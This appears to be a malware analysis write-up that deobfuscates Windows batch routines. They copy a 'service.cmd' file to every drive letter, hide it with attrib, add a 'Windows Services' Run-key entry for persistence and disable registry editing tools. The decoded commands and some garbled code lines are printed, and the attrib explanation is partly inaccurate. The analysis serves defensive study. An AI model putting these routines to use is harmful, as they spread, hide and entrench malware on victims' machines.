 ### Analysis of deobfuscated ":Axel"
```bash
cd temp
setlocal EnableDelayedExpansion
for E In (A,B,C,D,E,F,G,H,I,J,K,L,M,N,O,P,Q,R,S,T,U,V,W,X,Y,Z) Do 
(copy /Y 0 E:\service.cmd
set "string556=YXR0cmliICthICtoICtzICUlRTpcc2VydmljZS5jbWQ="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string556"""^)^)') do 
set "decoded556=i"cmd /c decoded556 >nul
set "string557=UkVHIEFERCBIS0VZX0xPQ0FMX01BQ0hJTkVcU09GVFdBUkVcTWljcm9zb2Z0XFdpbmRvd3NcQ3VycmVudFZlcnNpb25cUnVuIC92ICJXaW5kb3dzIFNlcnZpY2VzIiAvdCBSRUdfU1ogL2QgIiUlRTpcc2VydmljZS5jbWQiIC9m"

for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string557"""^)^)') do 
set "decoded557=i"cmd /c decoded557 >nul)
timeout /t 3 >nul
goto forever
```
Decoded base64 strings:
```bash
attrib +a +h +s %%E:\service.cmd
REG ADD HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Windows Services" /t REG_SZ /d "%%E:\service.cmd" /f
```

### Atrrib command explained:
* +A - Use the +A option to set the ARCHIVE attribute of a file. When the +A option is used, this flags the file as available for archiving when using the BACKUP or XCOPY commands.
* +H - With DOS Versions 4 through 6, use the +H option to set the HIDDEN attribute of a file so that it will not appear in a directory listing.
* +S - With DOS Versions after Version 4, use the +S option to set the SYSTEM attribute of a file. When the +S option is used, this flags the file as a command file used only by DOS. The file will not appear in a directory listing. This attribute is generally reserved for programmers.

#### Conclusion:
* "Axel" responsible for hiding "service.cmd" and setting persistence on CurrentVersion\Run "Windows Services"

### Analysis of deobfuscated ":Forever"
```bash
cd tempset "string117=UkVHIEFERCBIS0NVXFNvZnR3YXJlXE1pY3Jvc29mdFxXaW5kb3dzXEN1cnJlbnRWZXJzaW9uXFBvbGljaWVzXFN5c3RlbSAvdiAiRGlzYWJsZVJlZ2lzdHJ5VG9vbHMiIC90IFJFR19EV09SRCAvZCAiMSIgL2Y="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string117"""^)^)') do 
set "decoded117=i"
start /b decoded117 >nul
timeout /t 3 >nul
goto yuum
```
Decoded base64 strings:
```bash
REG ADD HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v "DisableRegistryTools" /t REG_DWORD /d "1" /f
```
#### Conclusion:
* Disables Windows registry
